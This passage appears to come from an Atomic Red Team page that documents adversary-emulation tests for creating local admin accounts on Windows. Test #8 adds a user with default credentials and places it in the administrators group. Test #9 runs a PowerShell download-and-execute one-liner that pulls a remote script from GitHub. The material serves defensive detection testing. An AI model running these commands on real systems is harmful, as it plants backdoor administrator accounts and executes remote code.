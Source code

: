 ```sh
pw userdel #{username}
```

<br/>
<br/>

## Atomic Test #8 - Create a new Windows admin user

Creates a new admin user in a command prompt.

**Supported Platforms:** Windows

**auto_generated_guid:** fda74566-a604-4581-a4cc-fbbe21d66559

#### Inputs:

| Name     | Description                    | Type   | Default Value   |
| -------- | ------------------------------ | ------ | --------------- |
| username | Username of the user to create | string | T1136.001_Admin |
| password | Password of the user to create | string | T1136_pass      |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
net user /add "#{username}" "#{password}"
net localgroup administrators "#{username}" /add
```

#### Cleanup Commands:

```cmd
net user /del "#{username}" >nul 2>&1
```

<br/>
<br/>

## Atomic Test #9 - Create a new Windows admin user via .NET

Creates a new admin user in a powershell session without using net.exe

**Supported Platforms:** Windows

**auto_generated_guid:** 2170d9b5-bacd-4819-a952-da76dae0815f

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/0xv1n/dotnetfun/9b3b0d11d1c156909c0b1823cff3004f80b89b1f/Persistence/CreateNewLocalAdmin_ART.ps1')
```

<br/>

